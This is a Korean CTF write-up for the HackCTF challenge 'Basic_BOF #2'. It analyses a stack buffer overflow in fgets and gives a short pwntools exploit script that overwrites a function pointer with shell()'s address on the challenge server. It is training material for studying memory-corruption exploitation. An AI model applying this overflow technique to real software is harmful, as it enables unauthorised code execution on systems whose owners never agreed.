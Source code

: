 ```yaml
---
title: "[ HackCTF ] Basic_BOF #2"
date: 2023-03-06T14:47:17.220Z
categories: ["Wargame", "HackCTF"]
tags: ["HackCTF","pwn"]
---
```

### **문제 분석**

---

![](/assets/images/2023-03-06-Basic_BOF2/2023-08-10-12-36-45.png)

IDA로 분석해보면, fgets 함수에서 bof가 발생하는 것을 알 수 있다.

<br>

![](/assets/images/2023-03-06-Basic_BOF2/2023-08-10-12-36-54.png)

또한 shell을 실행시켜주는 함수가 따로 존재한다.

<br>
<br>

### **문제 풀이**

---

fgets함수에서 bof를 발생시켜 v5함수의 주소를 shell()함수의 주소로 바꿔주면 된다.

s는 ebp-0x8C에 위치하고 v5는 ebp-0xC에 위치하므로 0x80만큼의 dummy를 넣어주고 shell()함수의 주소를 넣어주면 된다.

```python
from pwn import *

e = ELF('./bof_basic2')
p = remote('ctf.j0n9hyun.xyz', 3001)

shell = e.symbols['shell']

payload = ''
payload += 'A'*0x80
payload += p32(shell)

p.send(payload)
p.interactive()
```
